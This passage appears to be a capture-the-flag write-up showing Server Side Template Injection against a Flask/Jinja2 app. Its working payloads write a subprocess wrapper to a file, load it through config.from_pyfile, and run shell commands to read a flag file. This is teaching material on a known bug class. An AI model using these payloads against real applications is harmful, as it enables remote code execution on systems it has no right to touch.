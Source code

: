 ```

Yeah! We do love Server Side Template Injection (SSTI) :)

My exploitation is not over, I want a shell kind of feel. Now our plan is to load a python function which can execute commands into config variable, then we will have a shell! :D


Enter payload> {{"".__class__.mro()[2].__subclasses__()[40]("/tmp/new.cfg","w").write("from subprocess import check_output\n\nRUNCMD = check_output\n")}}

 None

Now we are writing a python script into a file `/tmp/new.cfg`


Enter payload> {{ config.from_pyfile("/tmp/new.cfg") }}

True

Loading that file into config using the method `from_pyfile`


Enter payload> {{ config.items() }}

 [('JSON_AS_ASCII', True), ...., ('RUNCMD', <function check_output at 0x7f479d2131b8>), ...,('X_OK', 1)]

As you can see, our function with keyword 'RUNCMD' is happily sitting in config items!


Enter payload> {{config['RUNCMD']('/bin/cat flag.py', shell=True)}}

 flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}'

There you go! I read the flag again, this time through a shell :D
```

**References**

[Exploring SSTI in Flask/Jinja2](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/)<br/>
[Flask Framework](https://flask.palletsprojects.com/en/2.2.x/)
 